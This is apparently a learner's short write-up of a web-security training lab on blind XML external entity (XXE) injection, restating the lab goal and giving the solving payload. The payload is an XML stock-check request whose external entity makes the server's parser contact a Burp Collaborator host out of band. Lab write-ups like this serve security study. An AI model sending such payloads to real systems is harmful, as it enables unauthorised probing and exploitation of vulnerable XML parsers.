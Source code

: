 # Lab: Blind XXE with out-of-band interaction

 This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

---

payload

```<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mydoc [<!ENTITY xxe SYSTEM "http://sad.burpcollaborator.net/" > ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>```

i don't have burp bro so i just entered a random subdomain of burpcollaborator, till i get my own public server
